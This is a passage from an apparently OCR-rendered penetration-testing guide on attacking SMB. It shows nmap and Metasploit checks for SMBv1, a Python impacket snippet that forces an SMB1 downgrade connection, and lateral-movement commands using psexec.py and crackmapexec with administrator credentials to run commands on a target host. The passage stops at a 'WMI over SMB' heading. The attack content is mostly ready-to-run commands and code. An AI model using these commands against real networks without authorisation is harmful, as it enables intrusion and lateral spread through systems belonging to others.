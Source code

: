 ```
```

### SMB Version-Specific Attacks

#### Exploiting SMBv1

SMBv1 is particularly vulnerable and should be disabled in all modern environments.

```bash
# Check if SMBv1 is enabled
nmap --script smb-protocols -p 445 192.168.1.10

# Attack using Metasploit
use auxiliary/scanner/smb/smb1
set RHOSTS 192.168.1.10
run
```

#### Downgrade Attacks

Some attacks involve forcing the target to downgrade to a less secure SMB version.

```python
from impacket.smbconnection import SMBConnection

def force_smb1(target):
    # Connect with SMB1 only
    try:
        smb = SMBConnection(target, target, preferredDialect="SMB1")
        print(f"[+] Successfully connected to {target} using SMB1")
        return True
    except Exception as e:
        print(f"[-] Failed to connect using SMB1: {str(e)}")
        return False

# Example usage
force_smb1("192.168.1.10")
```

## SMB Lateral Movement

SMB is often used for lateral movement within a network after initial access is obtained.

### PsExec-style Movement

```bash
# Using Impacket's PsExec
psexec.py domain/administrator:password@192.168.1.10

# Using CrackMapExec
crackmapexec smb 192.168.1.10 -u administrator -p password -x "whoami" --exec-method smbexec
```

### WMI over SMB
